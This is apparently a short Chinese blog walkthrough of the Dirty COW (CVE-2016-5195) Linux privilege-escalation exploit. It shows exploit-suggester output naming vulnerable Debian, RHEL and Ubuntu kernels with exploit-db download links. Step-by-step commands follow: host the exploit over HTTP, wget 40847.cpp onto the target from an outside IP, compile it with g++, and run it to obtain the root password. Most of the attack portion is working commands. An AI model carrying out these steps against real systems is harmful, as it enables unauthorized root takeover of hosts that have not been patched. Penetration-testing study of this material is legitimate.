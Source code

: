 https://blog.csdn.net/hbhgyu/article/details/106245182

向只读文件写入数据

```
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: 
	   debian=7|8,
	   RHEL=5{kernel:2.6.(18|24|33)-*},
	   RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},
	   RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},
	   [ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

### 40611

```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```


### 40847

需求：

g++编译器

首先进入tmp目录，然后开启http服务，选用80端口

```bash
python -m http.server 80
```

 3、在目标主机下载40847.cpp文件，并进行编译成40847可执行文件

```bash
wget http://192.168.186.147:80/40847.cpp
```

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

 4、执行该文件，可以得到root用户对应的密码！！

```bash
chmod +x dcow
./dcow -s    (Will automatically do "echo 0 > /proc/sys/vm/dirty_writeback_centisecs")

```